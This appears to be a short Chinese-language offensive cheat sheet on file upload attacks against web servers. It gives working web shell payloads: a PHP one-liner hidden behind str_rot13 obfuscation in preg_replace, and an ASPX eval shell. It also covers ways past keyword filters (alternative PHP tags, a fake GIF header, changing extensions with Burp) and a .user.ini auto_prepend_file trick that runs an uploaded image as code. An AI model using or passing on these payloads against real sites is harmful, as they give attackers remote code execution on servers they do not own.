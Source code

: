 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```

aspx木马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["shell"],"unsafe");%>
```

特殊：通过上传.user.ini内部增加文件自动包含进行传马攻击

```
Auto_prepend_file=2.jpg
```



